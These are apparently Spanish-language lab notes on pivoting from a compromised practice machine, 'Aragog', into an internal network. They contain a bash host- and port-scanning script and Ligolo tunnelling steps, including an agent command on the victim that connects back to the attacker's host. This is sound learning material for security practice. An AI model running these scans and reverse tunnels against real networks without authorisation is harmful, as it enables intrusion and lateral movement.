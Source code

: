 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `Ligolo` para hacer la tunelización el agent tiene que ir en la maquina victima y el proxy en la maquina atacante 

El agent lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Deberemos ejecutar el proxy en nuestra maquina atacante con:
`./proxy -selfcert `

Y en la maquina victima el agent con:
`./agent -connect 192.168.1.19:11601 -ignore-cert`

En ligolo seleccionamos la sesión con `session` y le damos al Intro
Ejecutamos el comando `start` para que se inicie el tunelizado hacia la maquina victima [[10.10.0.4 (Aragog)]]







